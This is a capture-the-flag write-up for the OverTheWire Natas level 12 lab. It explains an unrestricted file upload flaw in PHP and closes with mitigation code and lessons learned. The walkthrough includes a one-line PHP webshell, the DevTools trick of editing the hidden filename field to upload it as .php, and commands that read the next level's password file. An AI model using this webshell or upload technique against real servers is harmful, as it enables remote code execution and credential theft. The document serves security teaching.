







# Natas Level 12: Unrestricted File Upload Gone Wrong

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 12 | natas12 | http://natas12.natas.labs.overthewire.org |

**Introduction:** 

Natas Level 12 introduced me to one of the most dangerous web vulnerabilities: unrestricted file upload. The page presented a simple file upload form asking for a JPEG image, but as I would soon discover, the server side validation was severely lacking. This challenge was all about manipulating client controlled data to upload executable code instead of harmless images.

---

## Hunting for Clues

When I first loaded the page, I saw a straightforward upload interface:



The page displayed "NATAS12" at the top with a form that said "Choose a JPEG to upload (max 1KB):" followed by a file chooser button and an "Upload File" button. There was also the familiar "View sourcecode" link at the bottom right. The form seemed to expect JPEG images and had a 1KB file size limit.

I clicked on "View sourcecode" to understand how the upload mechanism worked:

```php
...
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
...
```

This source code revealed several important details:

1. **Random filename generation:** The `genRandomString()` function creates a 10 character random filename using lowercase alphanumeric characters
2. **Path construction:** The `makeRandomPath()` function combines the directory, random filename, and extension
3. **Critical vulnerability:** The `makeRandomPathFromFilename()` function is where things get interesting

Let me focus on this critical function:

```php
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
```

The server extracts the file extension using `pathinfo($fn, PATHINFO_EXTENSION)` from the `$_POST["filename"]` parameter. Here's the problem: POST data is completely controlled by the client. The server trusts whatever extension I send in the filename parameter, even though I can manipulate it.

The code only checks file size (must be under 1000 bytes) but does not validate:
- The actual file content or MIME type
- Whether the extension matches the file content
- Whether dangerous extensions like `.php` are being uploaded

This means I could force the server to save my uploaded file with a `.php` extension instead of `.jpg`, turning a harmless image upload into a code execution vulnerability.

---

## Breaking In

My plan was to upload a PHP webshell that would allow me to execute arbitrary commands on the server. First, I created a simple PHP file that would execute shell commands:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat natas.php
<?php echo shell_exec($_GET['cmd']); ?>
```

This tiny webshell reads a command from the `cmd` GET parameter and executes it using `shell_exec()`, then outputs the result. It's small enough to fit within the 1KB limit.

Now came the tricky part. I needed to upload this file but manipulate the filename extension in the POST request. Here's how I did it:

1. I clicked "Choose File" and selected my `natas.php` file
2. **Before clicking "Upload File"**, I opened the browser DevTools with `Ctrl+Shift+I`
3. I navigated to the Elements tab to inspect the form



In the DevTools, I could see the HTML form structure. There was a hidden input field with `type="hidden"` and `name="filename"` that had a value like `value="9zkvioc11a.jpg"`. This is the field the server uses to determine the file extension. Notice it defaulted to `.jpg` even though I selected a `.php` file.

I clicked on that value in DevTools and manually edited it:



I changed the extension from `.jpg` to `.php`, so the value became `"9zkvioc11a.php"`. This would tell the server to save my uploaded file with a `.php` extension instead of `.jpg`.

With the hidden field modified, I clicked the "Upload File" button. The server responded with:



Success! The page displayed: "The file upload/a4qr7moql3.php has been uploaded" with a clickable link. The server accepted my file and saved it with the `.php` extension I specified in the hidden field.

Now I needed to access my uploaded webshell. I clicked on the link to navigate to `upload/a4qr7moql3.php`:



I saw PHP error messages:

```
Notice: Undefined index: cmd in /var/www/natas/natas12/upload/a4qr7moql3.php on line 1

Warning: shell_exec(): Cannot execute a blank command in /var/www/natas/natas12/upload/a4qr7moql3.php on line 1
```

Perfect! These errors confirmed that my PHP code was executing. The errors appeared because my webshell expects a `cmd` parameter, but I hadn't provided one yet. Time to test command execution.

I added the `?cmd=id` parameter to the URL:



Excellent! The page displayed:

```
uid=30012(natas12) gid=30012(natas12) groups=30012(natas12),50001(phpupload)
```

I had achieved Remote Code Execution (RCE). The web server was running as the `natas12` user, and I could execute any command I wanted.

Now for the final step: reading the password file for natas13. I crafted a URL with the command to read the password file:

`?cmd=cat%20/etc/natas_webpass/natas13`

Note: I used `%20` as the URL encoded space character.



Voila! The page displayed the password (shown in the red redacted box in the browser address bar area): `trb[REDACTED]`

**The Vulnerability Breakdown:**

This challenge demonstrates **Unrestricted File Upload** leading to **Remote Code Execution**. Here's what went wrong:

1. **Client Side Extension Control:** The server determines the file extension from the `$_POST["filename"]` parameter, which is completely controlled by the client through a hidden form field that can be modified in DevTools.

2. **No Content Validation:** The server doesn't verify that the uploaded file actually matches the expected type. It doesn't check:
   - MIME type headers
   - File magic bytes (signature)
   - Actual file content

3. **No Extension Whitelist:** The server accepts any file extension the client provides. There's no check to ensure only safe extensions like `.jpg`, `.png`, or `.gif` are allowed.

4. **Executable Upload Directory:** The uploaded files are stored in a web accessible directory (`upload/`) where PHP files can be executed by the web server.

5. **Predictable Upload Path:** While the filename is randomized, the upload directory and the link to the uploaded file are both revealed to the attacker, making it trivial to access the malicious file.

**Real World Impact:**

Unrestricted file upload vulnerabilities are extremely dangerous and can lead to:
- Complete server compromise through uploaded webshells
- Defacement of websites by uploading malicious HTML/PHP files
- Phishing attacks by hosting malicious pages on legitimate domains
- Malware distribution using the compromised server
- Data theft by uploading scripts that exfiltrate databases or files
- Using the server as a pivot point for further attacks on internal networks
- Cryptocurrency mining by uploading mining scripts
- Denial of service through resource exhaustion

**Proper Mitigation:**

To prevent unrestricted file upload vulnerabilities, developers should:

1. **Never Trust Client Input:**
   ```php
   // WRONG - trusts client provided extension
   $ext = pathinfo($_POST["filename"], PATHINFO_EXTENSION);
   
   // RIGHT - extracts extension from actual uploaded file
   $ext = pathinfo($_FILES['uploadedfile']['name'], PATHINFO_EXTENSION);
   ```

2. **Implement Extension Whitelisting:**
   ```php
   $allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
   $ext = strtolower(pathinfo($_FILES['uploadedfile']['name'], PATHINFO_EXTENSION));
   
   if (!in_array($ext, $allowed_extensions)) {
       die("Invalid file type");
   }
   ```

3. **Validate MIME Types:**
   ```php
   $allowed_mimes = ['image/jpeg', 'image/png', 'image/gif'];
   $finfo = finfo_open(FILEINFO_MIME_TYPE);
   $mime = finfo_file($finfo, $_FILES['uploadedfile']['tmp_name']);
   
   if (!in_array($mime, $allowed_mimes)) {
       die("Invalid file type");
   }
   ```

4. **Check File Content (Magic Bytes):**
   ```php
   // Verify the file is actually an image by reading its signature
   $image_info = getimagesize($_FILES['uploadedfile']['tmp_name']);
   if ($image_info === false) {
       die("Not a valid image");
   }
   ```

5. **Store Uploads Outside Web Root:** Place uploaded files in a directory that's not accessible via HTTP. Serve files through a script that validates access permissions.

6. **Rename Files:** Always rename uploaded files to prevent directory traversal and ensure predictable, safe filenames:
   ```php
   $safe_name = hash('sha256', random_bytes(32)) . '.' . $ext;
   ```

7. **Disable Script Execution:** Configure the web server to prevent execution of scripts in the upload directory:
   ```apache
   # In .htaccess for Apache
   <Directory /path/to/uploads>
       php_flag engine off
       AddType text/plain .php .php3 .php4 .php5 .phtml
   </Directory>
   ```

8. **Set Proper Permissions:** Ensure uploaded files have minimal permissions (read only, not executable).

9. **Implement Virus Scanning:** For production applications, integrate antivirus scanning of uploaded files.

10. **Use Framework Features:** Modern frameworks provide secure file upload handling (Laravel's file validation, Django's FileField with validators, etc.)

---

## The Loot

**Next Level Password:** `trb[REDACTED]`

**Quick Recap:** Exploited unrestricted file upload vulnerability by manipulating the client controlled filename parameter in DevTools to upload a PHP webshell with a `.php` extension, achieving remote code execution to read the password file.

---

## Lessons Learned

This level taught me several critical lessons about file upload security:

1. **Client Side Data Cannot Be Trusted:** Hidden form fields, file extensions, MIME types, and any other client provided data can be trivially modified. Server side validation is essential.

2. **Defense in Depth is Critical:** File upload security requires multiple layers of protection. Checking only file size or only the extension is insufficient.

3. **Extension Whitelisting Over Blacklisting:** Trying to block dangerous extensions (`.php`, `.asp`, `.jsp`, etc.) is futile because there are too many variants (`.php3`, `.php4`, `.phtml`, etc.). Explicitly allow only safe extensions instead.

4. **Content Validation Matters:** The file extension and MIME type can lie. Checking the actual file content using magic bytes or image processing functions is crucial.

5. **Upload Directory Configuration:** Even if malicious files are uploaded, proper web server configuration can prevent them from being executed.

6. **Small Payloads are Dangerous:** Even a tiny 1KB file is more than enough for a devastating webshell. Size limits alone don't prevent attacks.

7. **DevTools are Powerful:** Browser developer tools make it trivial to modify form data, hidden fields, and request parameters before submission.

This challenge perfectly demonstrates why file upload functionality is one of the most dangerous features in web applications and requires extremely careful implementation.

On to Level 13!
